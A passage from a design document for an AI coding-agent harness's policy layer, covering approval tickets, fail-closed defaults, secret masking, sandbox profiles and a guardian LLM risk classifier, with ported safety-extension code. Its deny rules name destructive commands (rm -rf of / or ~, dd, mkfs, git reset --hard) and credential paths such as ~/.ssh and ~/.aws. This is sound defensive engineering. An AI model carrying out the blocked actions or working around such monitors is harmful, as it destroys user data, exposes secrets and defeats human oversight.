`omp.ApprovalKind` is a `StrEnum`: `EXEC`, `WRITE`, `READ`, `NETWORK`, `PRIVILEGE`, `DEVICE`,
`SPAWN`. It selects presentation and the configuration key that may pre-answer the request; it
is not itself a decision.

`scopes` are the buttons. `(ONCE, SESSION)` is pi's "allow once / allow always"
(`.plan/feature-map/ROADMAP.md:278`); adding `PERSIST` offers to write the grant to project
configuration. `pattern` is what a `SESSION` or `PERSIST` grant would cover — an approval whose
scope outlives the request must say what it is approving, or the user is consenting to
something unstated.

`require_human=True` forbids any extension-sourced answer: a registered approver may present
the request but may not decide it. This is `@gotgenes/pi-permission-system`'s bounded-delegation
rule — a forwarded ask that originated from an excluded gate surface downgrades a parent
authorizer's `allow` to `defer` — expressed as a property of the spec rather than a rule
buried in the escalator.

`default` is the answer applied when `timeout` elapses, and it exists only so the caller can
name it. **The harness never substitutes a default for a policy decision.** Leaving `default`
unset means a timeout resolves through `unreachable`, whose own default is
`Unreachable.FAIL_CLOSED` — a deny, which is the only answer that is safe without knowing what
the request was about. Nothing in this namespace infers a permissive fallback: core cannot know
that one guardian's safe answer is "deny" while another's is "escalate", so it refuses to guess
in either direction. The same rule governs `omp.agents.completion`'s `default=`
(`docs/py/12-agents.md`): supply it and the call never raises and reports `fell_back=True`; omit
it and the call raises rather than inventing an answer. A default chosen by the framework is a
policy decision made by something that has no policy.

#### `omp.ApprovalTicket`

```python
@dataclass(frozen=True, slots=True)
class ApprovalTicket:
    ticket_id: str
    invocation_id: str | None             # None for tickets not tied to an invocation
    reasons: tuple[ApprovalSpec, ...]     # every unresolved reason, aggregated
    state: TicketState                    # PENDING | DECIDED | WITHDRAWN
    decision: ApprovalDecision | None     # set once state is DECIDED
    created_at: float                     # POSIX seconds, journal clock
```

`omp.TicketState` is a `StrEnum`: `PENDING`, `DECIDED`, `WITHDRAWN`. The ticket is Core's
record, durable at filing; extensions read it and never construct one. The aggregate
resolution rule is the strictest of its parts: the effective `timeout` is the minimum,
`require_human` is true if any reason set it, and `unreachable` degrades to the most
conservative member present. Approving the ticket approves every reason at the granted
scope; denying it denies the invocation once, with every reason's `evidence` carried in the
`PolicyDenied` record.

#### `omp.ApprovalDecision`

```python
@dataclass(frozen=True, slots=True)
class ApprovalDecision:
    approved: bool
    scope: PolicyScope
    source: ApprovalSource
    decided_by: str | None                # approver name, extension id, or user handle
    reason: str | None
    audited: bool                          # a fail-open decision was recorded as such
```

`omp.ApprovalSource` is a `StrEnum`:

| Member | Meaning |
|---|---|
| `USER` | a person answered, locally |
| `EXTERNAL` | a registered approver answered |
| `FORWARDED` | the parent session answered on a subagent's behalf |
| `CONFIG` | project or user configuration pre-answered it |
| `EXTENSION` | a policy extension answered under its own authority |
| `TIMEOUT` | `timeout` elapsed and `default` applied |
| `UNAVAILABLE` | no route existed and `unreachable` applied |

`ApprovalDecision` is a durable journal record (see `docs/py/09-journal.md`); a decision made
in one turn is queryable in the next, which is what makes a `SESSION` scope enforceable across
a restart.

#### `omp.ApprovalRoute`

`StrEnum`: `AUTO`, `LOCAL`, `PARENT`, `EXTERNAL`, `NONE`.

`AUTO` picks `PARENT` when the session is a subagent (see `docs/py/12-agents.md`), `EXTERNAL`
when an approver is registered and reachable, `LOCAL` otherwise. `PARENT` is core-owned
routing over the existing agent channel: it replaces `@gotgenes/pi-permission-system`'s
file-mailbox — atomic writes to `<forwardingDir>/requests/<id>.json`, 50 ms polling for a
response file, parent discovery through three fallback environment variables — with a message
on a channel that already exists and already knows the parent.

#### `omp.Unreachable`

`StrEnum`, and the most consequential three-way choice in this document:

| Member | Semantics |
|---|---|
| `FAIL_CLOSED` | no answer means deny. The default, and the only correct choice for anything with effects. |
| `ESCALATE_LOCAL` | fall back to a local dialog when the external route is unreachable; if that also fails, deny. |
| `FAIL_OPEN_AUDITED` | allow, with `ApprovalDecision.audited=True`, a high-severity journal record and a UI notification. Core refuses this for any spec whose `kind` is not `READ`, and for any `BashIR` that is not `is_read_only()`. |

`FAIL_OPEN_AUDITED` exists because the alternative is worse: an unreachable approver that
denies everything gets disabled by the user within a day, and then nothing is gated at all. It
is deliberately restricted to read-shaped operations, and the restriction is enforced by core,
not by the extension's honesty. An unreachable route never raises into extension code — there
is no suspended coroutine to raise into. It resolves the ticket, through this table, into an
`ApprovalDecision` whose `source` is `UNAVAILABLE`. Revision 1's `ApprovalUnavailable`
exception is deleted along with the suspension model that needed it.

#### `@omp.approver(name, *, kinds=(), timeout=..., unreachable=...)`

Registers an external approver — a Slack workflow, a mobile push service, a corporate approval
API. The decorated coroutine receives an `ApprovalTicket` and returns an `ApprovalDecision`.
It answers a Core-owned ticket; it does not hold an invocation open, and the invocation it
gates stays parked at Core regardless of what this coroutine does.

```python
@omp.approver("oncall-slack", kinds=(omp.ApprovalKind.EXEC, omp.ApprovalKind.PRIVILEGE),
              timeout=omp.Duration("30m"), unreachable=omp.Unreachable.ESCALATE_LOCAL)
async def oncall(ticket: omp.ApprovalTicket, ctx: omp.Context) -> omp.ApprovalDecision:
    ...
```

Rides CONTROL for registration; the approver body runs on the host and reaches the outside
world through `omp.env` (`docs/py/11-env.md`) or a named process, never a raw socket in an
untrusted tier. Latency class: human. Fail policy: an exception is `Unreachable` applied, not a
crash. A pending ticket survives a host restart by construction — it is Core state — and is
re-offered to the approver when the extension reactivates
(`extension_activate(reason=RESTART)`), which is why an approver must be **idempotent on
`ticket.ticket_id`** — `@agentapprove/pi` is the reference case, and its mobile round trips
routinely outlive the process that started them.

#### `await omp.policy.pending() -> tuple[ApprovalTicket, ...]`

Every pending ticket for this session, in filing order. Used to render a status slot, and to
reconcile an approver's outstanding asks after a restart.

#### `await omp.policy.decide(ticket_id: str, decision: ApprovalDecision) -> None`

Resolves a pending ticket with the supplied durable decision. Repeating the identical decision
when Core re-offers the same `ticket_id` is an idempotent no-op; a conflicting second decision
is rejected by Core. The operation rides CONTROL and raises `NotWiredError` when the host
decision arm is unavailable.

### Input and discovery gating

Both gates use the ordinary `omp.HookDecision` vocabulary from `docs/py/05-hooks.md`; only
the subject differs.

- **`user_bash`** carries an `omp.ToolCallEvent` whose `origin` is user rather than model, with
  `bash` populated. It is the hook a sandbox extension attaches to so a command the *user*
  typed runs under the same profile as one the model issued — the reason `pi-sandbox` and
  `pi-landstrip` both intercept it. `omp.Modify` on this event may rewrite the script; it may
  not rewrite the environment, because environment injection is `omp.SandboxProfile`'s job and
  a `Modify` that prepends `ALL_PROXY=…` is exactly the unenforceable Python-side allowlist
  this design rejects.
- **`resources_discover`** carries the list core is about to expose — devices, MCP endpoints,
  skills, workspace resources. A policy returns the filtered list. It is fail-closed because
  omitting a resource is safe and adding one is not. Removing a device here is how a read-only
  audit session stops advertising `shell` at all; note that a device's *visibility* is
  `docs/py/01-devices.md`'s vocabulary, and this hook filters rather than unregisters.

Neither hook may be registered at `omp.HookPhase.OBSERVE`, since an observer that cannot
return a decision cannot gate.

### Secret redaction interaction

Redaction and policy read the same bytes with opposite requirements: a policy must see the real
secret to decide, and nothing downstream may keep it.

```python
@dataclass(frozen=True, slots=True)
class SecretRule:
    pattern: str
    kind: SecretKind = SecretKind.LITERAL
    mode: SecretMode = SecretMode.OBFUSCATE
    label: str = ""
    replacement: str | None = None

def declare(rule: SecretRule) -> None: ...          # omp.secrets.declare
def mask(text: str) -> str: ...                     # omp.secrets.mask
def is_masked(text: str) -> bool: ...               # omp.secrets.is_masked
```

`omp.SecretKind` is a `StrEnum`: `LITERAL`, `REGEX`, `ENV` (a named environment variable's
current value). `omp.SecretMode` is a `StrEnum`: `OBFUSCATE` (reversible keyed placeholder, so
an exact-match edit round-trips) and `REDACT` (one-way).

The interaction rules are absolute:

1. **`BashIR.source`, `BashArg.text` and `PathRef.lexical` are unredacted.** A policy that saw
   `$$TOKEN_a1b2c3d4e5f6$$` instead of `ghp_…` could not tell a credential from a filename. The IR is
   host-visible truth.
2. **Everything a policy emits is masked before it leaves the host.** `Deny.reason`,
   `ApprovalSpec.subject`/`body`/`evidence`, `Amend.reason` and any journal record pass
   through `omp.secrets.mask` on the way out. Building a deny message by interpolating
   `event.bash.segment(i)` is therefore safe by default — which is the opposite of
   `cc-safety-net`, where redaction is the extension's job and its rule set carries seven
   hand-written regexes (DSNs, `-----BEGIN`, Bearer, `AKIA`, `eyJ`, `ghp_`) to do it.
3. **Approval bodies are masked, and the mask is stable.** Two requests quoting the same secret
   quote the same placeholder, so a human approving `curl -H "Authorization: Bearer
   $$CRED_7f3a9b2c4d6e$$"` can recognise the credential without seeing it.
4. **A profile may not be built from a secret.** `PathRule.path` and `DomainRule.domain`
   containing a placeholder raise `omp.ProfileRejected`: enforcement rules must be legible in
   an audit record.

`omp.secrets.mask` is the escape hatch for extension-authored records that core does not route.
`omp.secrets.is_masked(text)` returns whether `text` contains a canonical reversible
placeholder: a 12-character lowercase base-36 keyed digest, an optional uppercase label, and
an optional `U`, `L`, `C`, or `M` case hint. It performs this format check locally and does not
send the text through a host arm.

### Exceptions

| Exception | Raised when | Fail direction |
|---|---|---|
| `omp.PolicyError` | base class; transport failure, unknown IR revision | closed |
| `omp.ProfileRejected` | a profile is malformed, or names a secret placeholder | closed — session refuses to open |
| `omp.ProfileWidened` | a contribution or `Amend` would loosen the running composition without user authority | closed — contribution dropped, journaled |
| `omp.EnforcementUnavailable` | `SandboxProfile.require` names no available backend | closed — session refuses to open |

Every one of these is fail-closed on purpose. There is no policy exception that results in an
allow.

### Module constants

| Constant | Value | Meaning |
|---|---|---|
| `omp.POLICY_DEADLINE` | `Duration("30s")` | wall clock the admission phases get before core synthesises a `Deny` |
| `omp.APPROVAL_DEADLINE` | `Duration("5m")` | default `ApprovalSpec.timeout` |
| `omp.VIOLATION_COALESCE` | `Duration("1s")` | window in which identical violations increment `count` instead of re-firing the hook |
| `omp.BASH_IR_REV`, `omp.BASH_IR_MAX_SOURCE`, `omp.BASH_IR_MAX_NODES`, `omp.BASH_IR_MAX_DEPTH` | see above | IR limits |

## Patterns

### 1. `cc-safety-net` — a declarative rulebook over the IR

`cc-safety-net` is ~50 rules, an audit log, and a whole analyzer it should never have had to
write. Its hard problems were all analysis problems: recursion depth (`C0`), unparseable
structure (`i0`), interpreter one-liners (`t2`, `V2`), and dynamic executables
(`shell.dynamic-executable`). All four are IR fields in omp, so the port is the rulebook and
nothing else.

```python
import omp
from dataclasses import dataclass

@dataclass(frozen=True, slots=True)
class Rule:
    id: str
    label: str
    intent: str                          # hard_stop | scope_down | manual_only | use_alternative
    catastrophic: bool = False

CATASTROPHIC = (
    Rule("rm.root-or-home", "recursive delete of / or ~", "hard_stop", catastrophic=True),
    Rule("rm.git-metadata", "recursive delete of .git", "hard_stop", catastrophic=True),
    Rule("dd.device-write", "raw write to a block device", "hard_stop", catastrophic=True),
    Rule("mkfs.device", "filesystem creation on a device", "hard_stop", catastrophic=True),
)
GIT_DESTRUCTIVE = {
    ("reset", "--hard"): Rule("git.reset-hard", "discards tracked changes", "manual_only"),
    ("clean", "-f"): Rule("git.clean-force", "deletes untracked files", "manual_only"),
    ("push", "--force"): Rule("git.push-force", "rewrites a remote branch", "manual_only"),
    ("branch", "-D"): Rule("git.branch-delete-force", "deletes an unmerged branch", "manual_only"),
    ("stash", "drop"): Rule("git.stash-drop-clear", "discards stashed work", "manual_only"),
}
SECRET_PATHS = ("**/.env", "**/.env.*", "**/id_rsa", "**/id_ed25519",
                "~/.aws/**", "~/.kube/config", "~/.docker/config.json")

def blocked(rule: Rule, ir: omp.BashIR, index: int, detail: str) -> omp.Deny:
    # No `fatal=True`: admission is per-invocation. A catastrophic rule that should end the
    # session raises the lockdown flag and lets the session gate below act on it.
    if rule.catastrophic:
        LOCKDOWN.add(rule.id)
    return omp.Deny(
        f"{rule.label}: {detail}\n\nRule: {rule.id}\nSegment: {ir.segment(index)}",
        code=rule.id,
    )

LOCKDOWN: set[str] = set()

@omp.hook("turn_start", phase=omp.HookPhase.PRECHECK)
def lockdown(event: omp.TurnStartEvent, ctx: omp.Context) -> omp.HookDecision:
    if LOCKDOWN:
        return omp.Deny(f"catastrophic rules fired this session: {sorted(LOCKDOWN)}",
                        fatal=True, code="safety-net.lockdown")
    return omp.Defer()

@omp.hook("tool_call", phase=omp.HookPhase.PRECHECK)
@omp.hook("user_bash", phase=omp.HookPhase.PRECHECK)
def safety_net(event: omp.ToolCallEvent, ctx: omp.Context) -> omp.HookDecision:
    # cc-safety-net's tool classification map `{"bash": "posix"}` and its malformed-input
    # guard (non-object `input`, missing/blank `command`, invalid `cwd`) are both structural
    # here: a shell dispatch is the one target that carries an IR, and a call whose args did
    # not decode never reaches a hook at all.
    if event.kind is not omp.TargetKind.CORE or event.bash is None:
        return omp.Defer()
    ir = event.bash

    # cc-safety-net's `i0`/`C0`/`$B` strings collapse into one branch, because the
    # analyzer that failed is the analyzer that will execute the script.
    if not ir.parse_ok:
        return omp.Deny(
            f"command could not be analyzed ({ir.parse_error.kind}); simplify and retry",
            code="analysis-failed",
        )

    # `interpreter.dangerous-command`, `awk.system-dynamic`,
    # `xargs.rm-recursive-force-dynamic`, `shell.dynamic-structure` and
    # `shell.dynamic-executable` are one IR field.
    if ir.has_dynamic_eval:
        opaque = ", ".join(f"{o.name} ({o.reason})" for o in ir.opaque)
        return omp.Deny(
            f"execution semantics are not statically visible: {opaque}. Run the underlying "
            f"command directly so it can be analyzed.",
            code="opaque-execution",
        )

    for path in ir.writes:
        if path.access & (omp.Access.DELETE | omp.Access.WRITE):
            # `rm -rf ~` carries Dynamism.TILDE and `rm -rf "$HOME"` carries
            # Dynamism.PARAMETER; both have `absolute` already expanded env-side, so the
            # rule never needs the host's own home directory — which for a remote
            # workspace would be the wrong machine's.
            HOME_ISH = omp.Dynamism.TILDE | omp.Dynamism.PARAMETER
            root_or_home = path.absolute == "/" or (
                bool(path.dynamism & HOME_ISH)
                and path.lexical.rstrip("/") in ("~", "$HOME", "${HOME}")
            )
            if root_or_home:
                return blocked(CATASTROPHIC[0], ir, path.command_index, path.lexical)
            if path.lexical.rstrip("/").endswith("/.git") or path.lexical.rstrip("/") == ".git":
                return blocked(CATASTROPHIC[1], ir, path.command_index, path.lexical)
        if ir.touches(*SECRET_PATHS):
            return omp.Deny(
                f"credential path {path.lexical} is not writable by the agent",
                code="secrets.write",
            )

    return omp.Defer()

@omp.hook("tool_call", phase=omp.HookPhase.APPROVAL)
def git_destructive(event: omp.ToolCallEvent, ctx: omp.Context) -> omp.HookDecision:
    # A destructive git subcommand is routed to a human, not denied outright. The hook
    # returns immediately; Core files one durable ticket for the invocation, and a denial
    # settles it as Aborted(POLICY_DENIED) without this extension doing anything further.
    ir = event.bash
    if ir is None or not ir.parse_ok:
        return omp.Defer()
    for cmd in ir.commands:
        if cmd.name != "git":
            continue
        words = tuple(a.text for a in cmd.argv[1:])
        for (sub, flag), rule in GIT_DESTRUCTIVE.items():
            if words and words[0] == sub and (flag in words or flag == sub):
                if flag == "--force" and "--force-with-lease" in words:
                    continue            # the exemption cc-safety-net also carves out
                return omp.RequireApproval(omp.ApprovalSpec(
                    title=rule.label,
                    body=f"`{ir.segment(cmd.index)}` {rule.label}.",
                    subject=ir.segment(cmd.index),
                    kind=omp.ApprovalKind.EXEC,
                    evidence=(rule.id,),
                    pattern=f"git {sub} {flag}",
                ))
    return omp.Defer()
```

What the port deletes: the bundled analyzer, its four circuit breakers, the segment splitter,
the seven redaction regexes (core masks on the way out), and the JSONL audit writer to
`~/.cc-safety-net/logs/<slug>/<YYYY-MM>/<YYYY-MM-DD>-<sessionId>.jsonl`. Every field of that
record already exists somewhere durable: the decision is a durable `CallOutcome` — a denial
is `Aborted(kind=POLICY_DENIED)` carrying `PolicyDenied` (`docs/py/02-verdicts.md`; the Rust
arm is `crates/tool/src/lib.rs:251`) — `v`/`ruleId` are `PolicyDenied.code` plus the rev carried by
`TOOL_REV_PROP` (`omp/tool-rev`, `:46`), `command`/`segment` are recoverable from the raw
emission the journal keeps beside the repaired arguments, and `cwd`/`sessionId` are on the
event. So the audit log is a query over the journal (`docs/py/09-journal.md`), not a file the
extension maintains, rotates and redacts. What survives is the rulebook — the only part that
was ever domain knowledge.

### 2. `@gotgenes/pi-permission-system` — an authorizer chain that is just phases

`composeAuthorizerChain(links, terminal, query, log)` builds a fold over `NamedAuthorizer`s
returning `{kind: "allow" | "deny" | "defer"}`, short-circuiting on the first non-defer and
falling through to a `TerminalAuthorizer` that prompts, denies, or forwards to a parent
process. That is the phase procedure in `docs/py/05-hooks.md`, and it needs no code: `allow`/`deny`/`defer`
are `omp.Allow`/`omp.Deny`/`omp.Defer`, `name` is the extension id already on every journal
record, and the terminal is the `APPROVAL` phase, where a hook returns `RequireApproval`.

```python
import omp

SENSITIVE = ("**/.ssh/**", "**/.aws/**", "**/*.pem", "**/.netrc", "**/.npmrc")

@omp.hook("tool_call", phase=omp.HookPhase.PRECHECK)          # was: a DenyingAuthorizer link
async def deny_sensitive(event: omp.ToolCallEvent, ctx: omp.Context) -> omp.HookDecision:
    # pi-permission-system's `PromptPermissionDetails` had one path list regardless of tool.
    # Here the tag says where a path comes from, and every kind is handled explicitly so a
    # new dispatch shape cannot fall through into an allow.
    match event.target:
        case omp.CoreTool(name="shell") if event.bash is not None:
            hits = event.bash.touches(*SENSITIVE)
        case omp.CoreTool(name="read" | "write" | "edit", args={"path": str() as p}):
            hits = await omp.policy.match_paths(p, *SENSITIVE)
        case omp.DeviceCall() | omp.McpCall():
            return omp.Defer()          # devices gate at their own exec session
        case _:
            return omp.Defer()
    for hit in hits:
        if hit.access & (omp.Access.READ | omp.Access.WRITE):
            return omp.Deny(f"{hit.lexical} is a protected credential path",
                            code="path.sensitive")
    return omp.Defer()

@omp.hook("tool_call", phase=omp.HookPhase.REVIEW)            # was: a project-scope link
def allow_in_project(event: omp.ToolCallEvent, ctx: omp.Context) -> omp.HookDecision:
    ir = event.bash
    if ir is None or not ir.parse_ok:
        return omp.Defer()
    # `bash-path-resolver.ts` folds `cd` bases across lists, pipelines and subshells to
    # answer this. `BashCommandIR.cwd` and `PathRef.outside_workspace` are that fold, in core.
    if ir.is_read_only() and not ir.reads_outside(ctx.roots):
        return omp.Allow(reason="read-only, confined to the workspace")
    if any(c.cwd is None for c in ir.commands):
        return omp.Defer()                # undecidable cwd is never an allow
    return omp.Defer()

@omp.hook("tool_call", phase=omp.HookPhase.APPROVAL)          # was: LocalUserAuthorizer
def ask(event: omp.ToolCallEvent, ctx: omp.Context) -> omp.HookDecision:
    ir = event.bash
    if ir is None:
        return omp.Defer()
    external = ir.writes_outside(ctx.roots)
    if not external:
        return omp.Defer()
    return omp.RequireApproval(omp.ApprovalSpec(
        title="Write outside the workspace",
        body="\n".join(f"- {p.lexical} → {p.resolved or 'unresolved'}" for p in external),
        subject=ir.source,
        kind=omp.ApprovalKind.WRITE,
        scopes=(omp.PolicyScope.ONCE, omp.PolicyScope.SESSION),
        pattern=" ".join(sorted({p.resolved or p.lexical for p in external})),
        # #635: an ask that originated from an excluded gate surface must reach a human.
        require_human=True,
        route=omp.ApprovalRoute.AUTO,      # PARENT for subagents, LOCAL otherwise
        unreachable=omp.Unreachable.FAIL_CLOSED,
    ))
```

What the port deletes: `composeAuthorizerChain`, `AuthorizerVerdict`, `NamedAuthorizer`,
`TerminalAuthorizer`, `PermissionPromptDecision`, `DecisionSource`, the whole
`bash-path-resolver.ts` cwd-folding walker, the bare-token filesystem probe, and
`approval-escalator.ts`'s file mailbox — `ForwardedPermissionRequest`/`Response` envelopes,
atomic request writes, 50 ms response polling, and parent discovery through
`PI_SUBAGENT_PARENT_SESSION` / `PI_PARENT_SESSION_ID` / `PI_SESSION_ID`. `ApprovalRoute.PARENT`
is one enum member because the parent link already exists. The bounded-delegation rule survives
as `require_human=True`, where it is legible instead of buried in the escalator.

### 3. `pi-sandbox` + `pi-landstrip` + `pi-playpen` — three packages become one rulebook

All three exist to compile a config into `@anthropic-ai/sandbox-runtime` and then cope with the
consequences: `pi-sandbox` scrapes stderr for violations and re-initialises the sandbox on a
grant; `pi-landstrip` propagates `LandstripContextV2` to subagents by base64url-encoding JSON
into `LANDSTRIP_CONTEXT`; `pi-playpen` partitions writes per project and re-implements the same
`allowRead`/`denyRead`/`allowWrite`/`denyWrite` vocabulary a third time. In omp the compiler,
the propagation and the violation channel are core, and what remains is the rulebook.

```python
import omp

CACHES = ("~/.cargo/registry", "~/.cargo/git", "~/.rustup", "~/.npm", "~/.cache/uv")
REGISTRIES = ("crates.io", "*.crates.io", "static.crates.io", "index.crates.io",
              "registry.npmjs.org", "pypi.org", "files.pythonhosted.org",
              "api.github.com", "*.githubusercontent.com")

@omp.hook("sandbox_profile", phase=omp.HookPhase.TRANSFORM)
def profile(request: omp.SandboxRequest, ctx: omp.Context) -> omp.SandboxProfile | None:
    if request.session_kind is omp.SandboxSessionKind.WORKER:
        return None                        # workers are confined by docs/py/04-placement.md
    # Every root, not just the primary: an added directory that is readable but not
    # writable is a policy bug that only shows up in a multi-root session.
    roots = request.roots
    primary = roots[0]
    return omp.SandboxProfile(
        mode=omp.SandboxMode.ENFORCE,
        label="workspace-build",
        require=(omp.SandboxBackend.LANDLOCK, omp.SandboxBackend.SEATBELT),
        filesystem=omp.FilesystemPolicy(
            allow_read=("/usr", "/bin", "/lib", "/etc/ssl", "/etc/resolv.conf",
                        *roots, *CACHES),
            allow_write=(
                *(omp.PathRule(r, create=True, delete=True) for r in roots),
                *(omp.PathRule(c, create=True, delete=True) for c in CACHES),
            ),
            deny_write=tuple(
                f"{r}/{leaf}" for r in roots
                for leaf in (".git", ".env", ".omp/policy.toml")
            ),
            deny_read=("~/.ssh", "~/.aws", "~/.gnupg", "~/.netrc"),
            follow_symlinks=False,
            tmpdir=f"{primary}/target/tmp",
        ),
        network=omp.NetworkPolicy(
            mode=omp.NetworkMode.PROXY,
            allow_domains=REGISTRIES,
            allow_ports=(443,),
            allow_localhost=False,
            dns=omp.DnsPolicy.PROXY_ONLY,
        ),
        exec=omp.ExecPolicy(allow_setuid=False, allow_ptrace=False, allow_new_session=False),
        resources=omp.ResourceBudget(memory_bytes=8 << 30, processes=512,
                                     file_size_bytes=2 << 30),
    )

@omp.hook("sandbox_violation")
def grant_on_demand(v: omp.Violation, ctx: omp.Context) -> omp.Amend | None:
    if v.kind not in (omp.ViolationKind.FS_READ, omp.ViolationKind.FS_WRITE):
        return None
    rule = omp.PathRule(v.subject, recursive=False)
    fs = omp.FilesystemPolicy(allow_write=(rule,)) if v.kind is omp.ViolationKind.FS_WRITE \
        else omp.FilesystemPolicy(allow_read=(rule,))
    # A widening Amend must carry an ApprovalSpec: Core files the durable ticket, and the
    # patch is applied — at the scope the decision granted — and the command retried only if
    # the ticket resolves approved by USER or EXTERNAL authority. This hook never waits.
    return omp.Amend(
        omp.SandboxProfile(filesystem=fs),
        scope=omp.PolicyScope.SESSION,
        reason="user-granted exception",
        retry=True,
        approval=omp.ApprovalSpec(
            title=f"Sandbox blocked a {v.kind.replace('FS_', '').lower()}",
            body=f"`{v.argv0 or 'command'}` tried to access `{v.subject}`"
                 f"{f' ({v.count}×)' if v.count > 1 else ''}.\nRule: {v.rule or v.profile}",
            subject=v.subject,
            kind=omp.ApprovalKind.WRITE if v.kind is omp.ViolationKind.FS_WRITE
                 else omp.ApprovalKind.READ,
            scopes=(omp.PolicyScope.SESSION, omp.PolicyScope.PERSIST),
            pattern=v.subject,
            evidence=(v.rule or v.profile,),
        ),
    )
```

What the port deletes: the vendored `@anthropic-ai/sandbox-runtime` dependency, the
`Operation not permitted` stderr regex, the `ssh() { … nc -X 5 -x localhost:$port … }` shell
function injection, the `ALL_PROXY`/`HTTP_PROXY`/`HTTPS_PROXY` env plumbing (now
`inject_proxy_env`, and not the enforcement), `LANDSTRIP_CONTEXT` base64url env-var IPC (a
subagent's confinement is inherited env-side, so there is nothing to encode), and
`pi-playpen`'s `GlobalConfig`/`SandboxDefinition`/`SandboxRuntimeConfig` triple-nesting. Note
`require=`: on a host with neither Landlock nor Seatbelt this extension refuses to run rather
than reporting `sandbox: 'unavailable'` and continuing, which is the failure `pi-landstrip`
models as a state and nobody checks.

### 4. `@shinynito/pi-menshen` — a guardian review that spends nothing on parsing

Menshen's four-stage pipeline is a rule engine, a tree-sitter parse, deterministic fast paths,
and an LLM guardian with a rejection circuit breaker. Stage two is 1,358,224 bytes of WASM and
a 50 ms budget it frequently exhausts; stages one and three are the `INHERENT_READ_ONLY` table
plus `rgPolicy`/`fdPolicy`/`findPolicy`/`sortPolicy`/`diffPolicy` flag validators. Stages two
and three are `ir.is_read_only()`. Stage four is the part worth keeping.

```python
import json
from dataclasses import dataclass
import omp

CONSECUTIVE_DENIALS = 0
BREAKER_TRIP = 3

@omp.entry_kind("dev.example.guardian.degraded", rev="v.1")
@dataclass(frozen=True, slots=True)
class GuardianDegraded:
    fault: str

@omp.hook("tool_call", phase=omp.HookPhase.REVIEW)
async def guardian(event: omp.ToolCallEvent, ctx: omp.Context) -> omp.HookDecision:
    global CONSECUTIVE_DENIALS
    if event.kind is not omp.TargetKind.CORE or event.bash is None:
        return omp.Defer()
    ir = event.bash

    # Stages 1-3 of menshen's pipeline: the INHERENT_READ_ONLY table, the per-command flag
    # validators, and the tree-sitter parse behind them. One IR predicate, no WASM.
    if ir.is_read_only() and not ir.reads_outside(ctx.roots):
        return omp.Allow(reason="read-only fast path")
    if CONSECUTIVE_DENIALS >= BREAKER_TRIP:
        return omp.Deny("guardian circuit breaker is open after repeated denials",
                        code="guardian.breaker")

    evidence = json.dumps({
        "script": ir.source,
        "writes": [p.lexical for p in ir.writes],
        "egress": [f"{n.kind}:{n.host}" for n in ir.net_sinks()],
        "dynamic_eval": ir.has_dynamic_eval,
        "outside_workspace": [p.lexical for p in ir.writes_outside(ctx.roots)],
    })
    # `choices` makes the answer a ladder with earliest-match parsing rather than prose to
    # regex; `default` is the deterministic answer on timeout, transport failure, or an
    # emission matching no choice. There is no library-chosen default, on purpose: only this
    # extension knows that its safe answer is "review" and not "allow".
    review = await omp.agents.completion(              # docs/py/12-agents.md
        evidence,
        role="smol",
        system="Classify this shell command's risk. Answer allow, review, or deny.",
        choices=("allow", "review", "deny"),
        default="review",
        deadline=omp.Duration("2s"),
        labels={"gate": "guardian"},
    )
    if review.fell_back:
        omp.journal.append(GuardianDegraded(fault=str(review.fault)))
    match review.choice:
        case "allow":
            CONSECUTIVE_DENIALS = 0
            return omp.Defer()          # let the APPROVAL phase have the last word
        case "deny":
            CONSECUTIVE_DENIALS += 1
            return omp.Deny(review.text, code="guardian.denied")
        case _:
            return omp.Defer()          # "review" falls through to the APPROVAL phase
```

Three differences from the pi shape, in descending order of importance.

**The classifier cannot fail open.** `omp.agents.completion` has no library-chosen default; a
caller either supplies `default=` or accepts `omp.agents.CompletionFailed`. A guardian that
returned `Allow` because a 350M model timed out would be worse than no guardian, so the API
makes that a caller bug rather than a default. `fell_back=True` says the deterministic path
ran, which is a fact worth journaling — this mirrors the failure semantics of the auto-thinking
classifier already shipping in Rust (`.plan/feature-map/FEATURES.md:356-360`: "online backend:
tiny model, allowMax variant, 5-level output, earliest-match parsing, transient retry" with
"fallback to provisional or previous level on failure").

**The output is constrained, not parsed.** Menshen prompts for prose and reads it back;
`choices` is an ordered ladder resolved by earliest match, so `"review — because $VAR is
unresolved"` resolves to `review` and cannot be argued into `allow` by a model that mentions
the word later in a sentence.

**The evidence is a parse, not a string.** Menshen hands its guardian a command and hopes the
model reads shell correctly. Here the classifier receives facts a parser established, so the
prompt is short, cacheable, and cannot be talked out of a `writes_outside` finding. The
extension also stops shipping a 1,358,224-byte WASM blob and stops downloading one from a
GitHub release on first run.

A fourth consequence is budgetary rather than architectural: `omp.agents.completion` spends the
session's task budget, requires the `inference:completion` manifest grant, and attributes its
`Usage` — including `cost_usd` — to this extension with `labels` copied onto every telemetry
record. A guardian that reviews every non-read-only call is a line item the user can see, which
is not true of any pi extension that calls a model.

-----

## What this requires us to build

### `crates/tool` — what already exists, and the one field that does not

Nothing in this document proposes a verdict model, a revision stamp, a lift path, or a spill
mechanism. All four are implemented:

| Symbol | Location | What policy uses it for |
|---|---|---|
| `Verdict<P, F>` | `crates/tool/src/lib.rs:251` | four arms, mirrored by `omp.CallOutcome`; a denial lowers to `Aborted(kind=POLICY_DENIED)` |
| `Abort::Skipped { reason }` | `:308-313` | "Call was deliberately not started" — a sibling failure or an abandoned batch, NOT a policy denial (see item 1 below) |
| `Abort::EffectsUnknown` | `:319-323` | a violation that raced an effect the owner cannot confirm |
| `TOOL_REV_PROP` | `:46` | the rev on every audit record; no parallel stamp needed |
| `Rev { family, n }` | `:49-56` | `family@rev` identity for per-rule metrics |
| `ArgIssue { path, expected, kind, example, found }` | `:291-303` | the structured-fault shape a policy's deny message should imitate |
| `VerdictDetails::{Inline, Spilled}` | `:417-433` | a large violation report spills instead of bloating the transcript |
| `VerdictSpill` | `:435-442` | env-provided durable storage for the above |
| `Tool::lift` | `:213-216` | history migration across IR revisions, if the IR is ever journaled |

What is missing, specifically:

1. **`Abort` has no policy-denial arm.** Revision 1 said "`omp.Deny(code=…)` has nowhere to
   land" and proposed bolting `code: Option<Str>` onto `Abort::Skipped`. Both halves are
   retracted: the claim, because `docs/py/02-verdicts.md` now defines the landing place —
   `PolicyDenied(reason, code, decision_id, rules)` carried as
   `Aborted(kind=POLICY_DENIED, policy=…)` — and the fix, because it conflated two facts.
   Skipped means "deliberately not started" (a sibling failed, the batch was abandoned);
   denied means "refused by policy", and folding the second into the first would have made
   "which rule fired how often" a string-matching exercise over `reason` — exactly the
   archaeology Lesson #8 exists to prevent. The Rust work is an `AbortKind` distinguishing
